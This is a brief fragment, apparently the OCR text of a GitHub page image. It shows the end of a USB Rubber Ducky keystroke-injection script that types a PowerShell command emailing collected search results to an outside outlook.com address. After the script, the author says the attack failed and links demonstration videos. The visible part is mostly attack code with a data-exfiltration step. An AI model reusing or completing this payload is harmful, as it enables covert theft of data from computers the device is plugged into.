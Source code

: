 ```ducky
DELAY 1000
STRING }
ENTER
DELAY 1000
STRING }
ENTER
DELAY 1000
STRING Send-ToEmail -email "win10_9121@outlook.com" -msgBody $searchResultAsString
ENTER
DELAY 1000
```

But the attack was not successful. The result is as mentioned in the [video.](https://youtu.be/llA5RpW7hVg)

I tried to showcase the result by running the same script in Powershell separately. The result is [here.](https://youtu.be/zZD78ARtKls)
